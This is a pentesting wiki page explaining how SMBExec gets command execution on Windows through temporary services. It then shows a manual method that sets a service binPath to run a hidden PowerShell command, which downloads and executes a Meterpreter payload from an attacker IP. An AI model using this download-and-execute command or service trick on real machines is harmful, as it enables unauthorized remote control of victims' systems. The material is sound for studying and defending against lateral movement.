

# SmbExec/ScExec

## How does it works

**Smbexec works like Psexec.** In this example**,** **instead** of pointing the "_binpath_" to a malicious executable inside the victim, we are going to **point it** to **cmd.exe or powershell.exe** and one of they will download and execute the backdoor.

## **SMBExec**

Let's see what happens when smbexec runs by looking at it from the attackers and target's side:


So we know it creates a service "BTOBTO". But that service isn't present on the target machine when we do an `sc query`. The system logs reveal a clue to what happened:



The Service File Name contains a command string to execute \(%COMSPEC% points to the absolute path of cmd.exe\). It echoes the command to be executed to a bat file, redirects the stdout and stderr to a Temp file, then executes the bat file and deletes it. Back on Kali, the Python script then pulls the output file via SMB and displays the contents in our "pseudo-shell". For every command we type into our "shell", a new service is created and the process is repeated. This is why it doesn't need to drop a binary, it just executes each desired command as a new service. Definitely more stealthy, but as we saw, an event log is created for every command executed. Still a very clever way to get a non-interactive "shell"!

## Manual SMBExec

**Or executing commands via services**

As smbexec demonstrated, it's possible to execute commands directly from service binPaths instead of needing a binary. This can be a useful trick to keep in your back pocket if you need to just execute one arbitrary command on a target Windows machine. As a quick example, let's get a Meterpreter shell using a remote service _without_ a binary.

We'll use Metasploit's `web_delivery` module and choose a PowerShell target with a reverse Meterpreter payload. The listener is set up and it tells us the command to execute on the target machine:

```text
powershell.exe -nop -w hidden -c $k=new-object net.webclient;$k.proxy=[Net.WebRequest]::GetSystemWebProxy();$k.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $k.downloadstring('http://10.9.122.8:8080/AZPLhG9txdFhS9n');  
```

From our Windows attack box, we create a remote service \("metpsh"\) and set the binPath to execute cmd.exe with our payload:


And then start it:


It errors out because our service doesn't respond, but if we look at our Metasploit listener we see that the callback was made and the payload executed.


All the info was extracted from here: [https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)

